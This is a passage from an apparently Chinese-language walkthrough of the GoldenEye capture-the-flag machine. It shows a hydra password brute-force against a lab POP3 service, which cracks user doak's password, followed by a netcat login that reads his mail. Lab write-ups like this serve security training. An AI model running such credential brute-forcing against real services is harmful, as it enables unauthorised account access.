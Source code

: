 ![image-20220909234338882](../../.gitbook/assets/image-20220909234338882.png)

爆破`doak`用户的密码：`goat`

```
┌──(root💀kali)-[~/Desktop]
└─# hydra -l doak -P /usr/share/wordlists/fasttrack.txt -t20 192.168.32.217 -s55007 -I pop3
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-09 11:44:21
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 20 tasks per 1 server, overall 20 tasks, 222 login tries (l:1/p:222), ~12 tries per task
[DATA] attacking pop3://192.168.32.217:55007/
[STATUS] 100.00 tries/min, 100 tries in 00:01h, 122 to do in 00:02h, 20 active
[55007][pop3] host: 192.168.32.217   login: doak   password: goat
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-09 11:46:04

```

查看`doak`邮件信息

```
┌──(root💀kali)-[~/Desktop]
└─# nc 192.168.32.217 55007                                                                
+OK GoldenEye POP3 Electronic-Mail System
USER doak
+OK
PASS goat
+OK Logged in.
LIST
+OK 1 messages:
1 606
.
RETR 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 97DC24549D
        for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
```